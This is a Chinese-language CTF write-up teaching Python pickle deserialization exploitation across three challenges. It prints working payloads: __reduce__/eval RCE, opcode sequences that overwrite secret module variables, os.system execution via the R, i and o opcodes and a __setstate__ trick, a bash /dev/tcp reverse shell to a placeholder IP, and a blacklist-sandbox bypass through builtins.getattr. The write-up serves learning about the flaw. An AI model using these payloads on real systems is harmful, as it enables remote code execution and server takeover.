




0x00 前言 通过几道题了解pickle反序列化
0x01 [CISCN2019 华北赛区 Day1 Web2]ikun 最简单的__reduce__, (忽略别的一些知识点,只看pickle反序列化这部分.)
关键代码:
1 2 3 4 5 6 7 8 9 10 class AdminHandler (BaseHandler ): @tornado.web.authenticated def post (self, *args, **kwargs ): try : become = self.get_argument('become' ) p = pickle.loads(urllib.unquote(become)) return self.render('form.html' , res=p, member=1 ) except :
payload:
1 2 3 4 5 6 7 8 9 10 import pickleimport urllibclass genpoc (object def __reduce__ (self ): cmd = 'cat /flag.txt' s = "__import__('os').popen('{}').read()" .format (cmd) return (eval , (s,)) poc = pickle.dumps(genpoc()) print(urllib.quote(poc))
参考 https://blog.csdn.net/xiayu729100940/article/details/105202964,这篇文章给出了几个payload .
0x02 xctf高校战疫网络安全分享赛:webtmp 简要分析 题目给出了source.py,代码就不贴了.
从路由部分开始看:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 @app.route('/' , methods=['GET' , 'POST' ] def index (): if request.method == 'POST' : try : pickle_data = request.form.get('data' ) if b'R' in base64.b64decode(pickle_data): return 'No... I don\'t like R-things. No Rabits, Rats, Roosters or RCEs.' else : result = restricted_loads(base64.b64decode(pickle_data)) if type (result) is not Animal: return 'Are you sure that is an animal???' correct = (result == Animal(secret.name, secret.category)) return render_template('unpickle_result.html' , result=result, pickle_data=pickle_data, giveflag=correct) except Exception as e: print(repr (e)) return "Something wrong" sample_obj = Animal('一给我哩giaogiao' , 'Giao' ) pickle_data = base64.b64encode(pickle.dumps(sample_obj)).decode() return render_template('unpickle_page.html' , sample_obj=sample_obj, pickle_data=pickle_data)
可以看到ban掉了R, 且满足type(result)==Animal和result == Animal(secret.name, secret.category)就给flag. 但是并不知道secret.name和secret.category这两个变量,所以无法通过正常逻辑得到flag.
然后注意到result = restricted_loads(base64.b64decode(pickle_data)) 这行代码存在pickle反序列化. 跟踪一下restricted_loads这个函数,
1 2 3 4 5 6 7 8 9 class RestrictedUnpickler (pickle.Unpickler ): def find_class (self, module, name ): if module == '__main__' : return getattr (sys.modules['__main__' ], name) raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name)) def restricted_loads (s ): return RestrictedUnpickler(io.BytesIO(s)).load()
发现进行pickle反序列化的时候只允许__main__模块
然后再看一下Animal类
1 2 3 4 5 6 7 8 9 10 class Animal : def __init__ (self, name, category ): self.name = name self.category = category def __repr__ (self ): return f'Animal(name={self.name!r} , category={self.category!r} )' def __eq__ (self, other ): return type (other) is Animal and self.name == other.name and self.category == other.category
对__eq__和__repr__进行了重写.
然后思考如何通过反序列化获得flag.
直接获得secret里面的两个变量 / 覆盖掉它们
RCE获得flag.
读取文件获得secret.py (因为没回显所以就不考虑了)
下面考虑1和2的可能性
变量覆盖 __main__ 对第一点需要知道怎么找到secret这个变量.
1 2 3 4 5 6 import __main__import secretname='lonmar' if __name__ == '__main__' : print(__main__.__dict__)
运行上面的代码发现有secret这个模块.

然后可以发现可以通过__main__找到secret里面的变量.

并且可以做出修改
secret.py
1 secret="this_is_the_secret_in_secret.py"
1 2 3 4 5 6 7 8 9 10 11 12 import __main__import secretname='lonmar' if __name__ == '__main__' : __main__.__dict__['secret' ].__dict__['secret' ] = "testestestestestest" print(secret.secret) ''' testestestestestest [Finished in 0.1s] '''
所以可以利用pickle反序列化进行变量的覆盖.
opcode 然后开始编写opcode.(因为ban掉了R)
opcode编写参考 https://xz.aliyun.com/t/7436
全部的opcode指令可以从 https://www.anquanke.com/post/id/188981找到 .
这里抄来几点tips
c操作符会尝试import库，所以在pickle.loads时不需要漏洞代码中先引入系统库。pickle不支持列表索引、字典索引、点号取对象属性作为左值 ，需要索引时只能先获取相应的函数（如getattr、dict.get）才能进行。但是因为存在s、u、b操作符，作为右值是可以的 。即“查值不行，赋值可以”。pickle能够索引查值的操作只有c、i。而如何查值也是CTF的一个重要考点。
s、u、b操作符可以构造并赋值原来没有的属性、键值对。
找到secret.name和secret.category并通过b操作符赋值:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 '''c__main__ secret (S'name' S"1" S"category" S"2" db.''' 0 : c GLOBAL '__main__ secret' 17 : ( MARK 18 : S STRING 'name' 26 : S STRING '1' 31 : S STRING 'category' 43 : S STRING '2' 48 : d DICT (MARK at 17 ) 49 : b BUILD 50 : . STOP
c先引入__main__.sercret,在栈中第一个元素位置.
(压入mark.
S依次压入name,1,category,2
d组成字典{‘name’:’1’,category’:2},且mark,name,1,category,2出栈,字典入栈.
b 使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置 . 在这里就是操作secret.name和secret.category.(栈上第一个元素出栈
然后构造需要传入的animal对象:
1 2 3 4 5 6 '''(c__main__ Animal S"1" S"2" o. '''
然后两个拼接即可. 因为要将Animal对象返回,所以赋值留下的一个元素需要pop掉(0)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 import base64data=b'''c__main__ secret (S'name' S"1" S"category" S"2" db0(c__main__ Animal S"1" S"2" o. ''' print(base64.b64encode(data))
tips : 也可以直接获取变量值,只不过opcode可能比较难写. 因为本道题限制了__main__模块
未限制__main__参考 https://zhuanlan.zhihu.com/p/89132768 0x07全局变量包含：c指令码的妙用
RCE 题目过滤了R,还可以用i和o进行RCE,这点比较容易绕过.
但是只允许__main__模块加载,这个就无法绕过了2333
所以RCE是失败的.但是换个思路,如果 题目ban了__main__,堵住了变量覆盖这条路,就可以RCE
修改代码,尝试ban掉R后的RCE.
1 2 3 4 5 class RestrictedUnpickler (pickle.Unpickler ): def find_class (self, module, name ): if module == '__main__' : raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name)) return getattr (sys.modules[module], name)
RCE demo:
R:
1 2 3 4 b'''cos system (S'whoami' tR.'''
i
1 2 3 4 b'''(S'whoami' ios system .'''
o
1 2 3 4 b'''(cos system S'whoami' o.'''
另外,这篇文章里面https://zhuanlan.zhihu.com/p/89132768还给出了一种从源码角度分析得到的ban掉`R`后的RCE方法,简述 :
先为对象加上一个 __setstate__ 属性:{'__setstate__': os.system}
然后再用一个字符串(cmd)build这个对象.原理就不赘述了,在文章里都有(只是没看懂build 字符串是什么操作)
payload:
1 2 3 payload = b'\x80\x03c__main__\nStudent\n)\x81}(V__setstate__\ncos\nsystem\nubVls /\nb.' payload = b'\x80\x03c__main__\nStudent\n)\x81}(V__setstate__\ncos\nsystem\nubVls /\nb0c__main__\nStudent\n)\x81}(X\x04\x00\x00\x00nameX\x03\x00\x00\x00ruaX\x05\x00\x00\x00gradeX\x03\x00\x00\x00wwwub.'
反弹shell:
1 2 3 4 5 6 import base64data=b'''(cos system S'bash -c "bash -i >& /dev/tcp/xxx.xxx.xx.xxx/7777 0>&1"' o.''' print(base64.b64encode(data))
0x03 Code-Breaking:picklecode 分析 由于Django很不熟悉,所以就直接看着P牛文章分析了.https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html
这道题目首先要关注的点就是配置文件,下面的配置文件很异常

可以配合模板注入得到secret_key,然后伪造session,再精心构造opcode,绕过反序列化沙箱达到RCE目的.
下面主要看一下绕过反序列化沙箱部分,沙箱如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 import pickleimport ioimport builtinsclass RestrictedUnpickler (pickle.Unpickler ): blacklist = {'eval' , 'exec' , 'execfile' , 'compile' , 'open' , 'input' , '__import__' , 'exit' } def find_class (self, module, name ): if module == "builtins" and name not in self.blacklist: return getattr (builtins, name) raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))
上面也是python官方给出的一种沙箱写法,但是find_class只会检查第一层的module.
可以通过getattr配合已经导入的builtins类绕过: builtins.getattr('builtins', 'eval')
opcode:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 '''cbuiltins getattr (cbuiltins dict S'get' tR(cbuiltins globals (tRS'builtins' tRp1 cbuiltins getattr (g1 S'eval' tR(S'__import__("os").system("id")' tR.'''
使用pker编写opcode 像上面的opcode写起来很费劲,有师傅写了更方便的opcode生成工具
项目地址 https://github.com/eddieivan01/pker
1 2 3 4 5 6 7 8 getattr =GLOBAL('builtins' ,'getattr' )dict =GLOBAL('builtins' ,'dict' )dict_get=getattr (dict ,'get' ) glo_dic=GLOBAL('builtins' ,'globals' )() builtins=dict_get(glo_dic,'builtins' ) eval =getattr (builtins,'eval' )eval ('print("123")' )return

使用参考 https://xz.aliyun.com/t/7436#toc-13
0x04 Reference